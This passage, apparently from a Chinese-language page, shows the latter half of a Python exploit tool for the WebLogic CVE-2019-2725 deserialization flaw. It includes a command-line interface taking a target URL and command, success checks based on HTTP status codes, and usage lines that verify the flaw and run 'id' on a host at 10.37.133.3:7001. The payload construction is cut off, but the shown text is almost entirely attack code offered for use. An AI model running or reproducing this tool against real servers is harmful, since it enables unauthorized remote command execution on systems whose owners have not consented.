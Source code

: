 ```bash
            )
      
            print(f"[+] HTTP状态码: {response.status_code}")
            print(f"[+] 响应长度: {len(response.text)} 字节")
      
            if response.status_code == 500:
                print("[+] 攻击可能成功 (HTTP 500通常表示反序列化触发)")
                return True
            elif response.status_code == 200:
                print("[+] 请求被处理 (需要进一步验证)")
                return True
            else:
                print(f"[-] 攻击失败，状态码: {response.status_code}")
                return False
          
        except Exception as e:
            print(f"[-] 攻击执行失败: {e}")
            return False

def main():
    parser = argparse.ArgumentParser(description='WebLogic CVE-2019-2725 利用工具')
    parser.add_argument('-t', '--target', required=True, help='目标URL (例如: http://10.37.133.3:7001)')
    parser.add_argument('-c', '--command', help='要执行的命令')
    parser.add_argument('-v', '--verify', action='store_true', help='仅验证漏洞存在性')
  
    args = parser.parse_args()
  
    exploit = WebLogicCVE2019_2725Exploit(args.target)
  
    if args.verify:
        print("[*] 开始漏洞验证...")
        if exploit.test_vulnerability():
            print("[+] 目标存在CVE-2019-2725漏洞")
        else:
            print("[-] 目标不存在CVE-2019-2725漏洞")
  
    if args.command:
        print("[*] 开始命令执行...")
        exploit.execute_command(args.command)

if __name__ == "__main__":
    main()
EOF

chmod +x weblogic_cve_2019_2725_exploit.py
```

**使用修复后的脚本进行验证**:

```bash
# 漏洞验证
python3 weblogic_cve_2019_2725_exploit.py -t http://10.37.133.3:7001 -v

# 执行id命令
python3 weblogic_cve_2019_2725_exploit.py -t http://10.37.133.3:7001 -c "id"
```
